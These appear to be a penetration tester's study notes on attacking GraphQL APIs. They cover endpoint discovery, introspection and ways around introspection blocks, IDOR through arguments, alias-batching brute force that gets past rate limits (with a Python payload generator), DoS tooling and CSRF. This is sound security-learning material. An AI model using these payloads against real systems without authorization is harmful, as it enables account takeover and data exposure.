 ```yaml
---
layout: blank
pagetitle: GraphQL Attacks
---
```


**Automatic Exploitation**
- [GrapeQL](https://github.com/AleksaZatezalo/grapeql.git) will automatically enumerate a GraphQL endpoint and attempt to find common web vulns
  - Installed with pip
  - `grapeql --api {url}/{graphql_endpoint} --report report.md`
    - `--dos` to try denial of service attacks
    - `--proxy {http://127.0.0.1:8080}` to proxy thru Burp
  - If we don't have introspection enabled, but we do have a schema, we can patch `client.py` to allow for passing a schema:

```python
response, error = await self.graphql_query(query)
        
if os.path.exists("schema.json"):
    with open("schema.json", "r") as f:
        response = json.load(f)
        schema_data = response.get("data", {}).get("__schema")
elif error or not response:
```
- Use Damn Vulnerable GraphQL App as a testing ground

**Finding GraphQL Endpoints**
- Universal query - `query{__typename}`
- Common endpoints:
  - `/graphql`, `/api`, `/api/graphql`, `/graphql/api`, `graphql/graphql`
  - All of the above with `v1` or `v2` in the path start/end
  - If no endpoints pop up, try using alternative HTTP methods (non-POST) with the universal query

**Exploiting Unsanitized Arguments**
- Think common web vulns here
- Example:
  - Pretend query is `query {products {id name listed}}`
  - If this returns products 1, 2, and 4, we can try to IDOR product 3 with 
    - `query {products(id: 3) {id name listed}}`

**Discovering Schema Information**
- Suggestions
  - Apollo GraphQL will suggest amendments when errors occur, like `There is no entry for 'productInfo'. Did you mean 'productInformation' instead?`
  - These can be used to glean information about the schema
  - [Clairvoyance](https://github.com/nikitastupin/clairvoyance) uses suggestions to recover the schema
- Introspection queries
  - Built-in function that allows querying schema information
    - `query{__schema}`
    - `{"query": "{__schema{queryType{name}}}"}`
  - Description fields can sometimes have sensitive info
  - Introspection query can be sent via **{right click} > GraphQL > Set introspection query**
    - Can return lots of information, so right click the response and `Save GraphQL queries to site map` 
    - Can use online visualizers if desired, such as [GraphQL Voyager](https://apis.guru/graphql-voyager/)
    - Can also use InQL to view the possible queries
- Mutation queries
  - Will have `variables` parameter where input is specified

**Bypassing Introspection Defenses**
- Sometimes, introspection queries won't run due to being disabled
- Developers sometimes disable introspection by excluding `__schema{` keyword
  - Flawed regex can be defeated by adding spaces/new lines/comments after `__schema` (which are ignored by GraphQL)
- Introspection may sometimes only be disabled over POST, so try GET requests or POST requests with content-type of `x-www-form-urlencoded` 
  - `?query=query%7B__schema%7BqueryType%7Bname%7D%7D%7D`
  - `%0A` for a newline

**Bypassing Rate Limiting**
- Many endpoints will have a rate limiter in place, and will often be based on the number of HTTP requests received (as opposed to the number of operations performed)
  - Network level instead of application level
- This means that we can do a massive brute force of one object/query in a single request using aliases:

```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```

- Python script to generate JSON-friendly aliases given a file with a list of words (brute forcing usernames example):
  - Replace `[mutations_code_here]` with `\n{mutations}\n` (Github markdown issue)

```python
import json
with open("wordlist.txt") as f:
    passwords = [line.strip() for line in f]
mutations = "\n".join(
    f'bruteforce{i}: [function](input: {{[input]}}) {{ token success }}'
    for i, pw in enumerate(passwords)
)

graphql_query = {
    "query": f"mutation {{[mutations_code_here]}}"
}

print(json.dumps(graphql_query, indent=2))
```


**GraphQL CSRF**
- Arise when GraphQL endpoints don't validate content type of requests and CSRF tokens not implemented
  - POST requests with content type of `application/json` are secure as long as content type is validated
- Can use GET requests or requests with `x-www-form-urlencoded`, since they can be sent by a browser
  - Either way, need to format it in a URL encoded parameter format (with `=` and `&`)
    - Make sure that `{`, `}`, and `:` (along with other special chars) are URL encoded

